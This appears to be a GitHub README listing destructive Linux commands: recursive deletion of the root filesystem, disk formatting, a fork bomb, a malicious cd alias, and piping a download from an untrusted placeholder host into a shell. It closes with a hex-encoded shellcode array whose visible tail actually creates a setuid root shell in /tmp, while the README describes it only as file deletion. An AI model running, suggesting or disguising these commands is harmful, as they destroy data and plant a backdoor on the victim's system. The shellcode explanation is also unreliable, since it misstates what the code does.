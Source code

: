 # Hello-World

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```
This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```


```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and ofcourse will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv ~/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices



### Happy-Hacking
